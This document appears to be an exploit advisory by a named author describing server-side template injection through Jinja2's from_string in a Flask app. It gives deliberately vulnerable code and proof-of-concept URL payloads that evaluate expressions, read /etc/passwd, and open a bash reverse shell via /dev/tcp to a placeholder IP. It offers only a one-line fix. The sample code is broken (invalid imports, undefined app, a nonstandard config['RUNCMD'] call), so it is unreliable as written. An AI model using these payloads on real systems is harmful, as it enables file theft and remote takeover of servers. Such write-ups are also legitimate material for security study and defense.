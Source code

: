 #Jinja2 Command injection from_string function <br />
#Website: Ordina.nl <br />
Author: Jameel Nabbo   <br />
Email: jameel.nabbo[at]ordina.nl   <br />

// from_string function is prone to SSTI where it takes the "source" parameter as a template object and render it and then return it.


//here's an example about the vulnerable code that uses from_string function in order to handle a variable in GET called 'username' and returns Hello {username}:


import Flask
import request
import Jinja2


@app.route("/")
def index():
	username = request.values.get('username')
	return Jinja2.from_string('Hello ' + username).render()


if __name__ == "__main__":
	app.run(host='127.0.0.1' , port=4444)

POC
//Exploiting the username param
http://localhost:4444/?username={{4*4}}
OUTPUT: Hello 16

Reading the /etc/passwd

http://localhost:4444/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}


Getting a reverse shell 
http://localhost:4444/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }}


How to prevent it:
Never let the user provide template content.
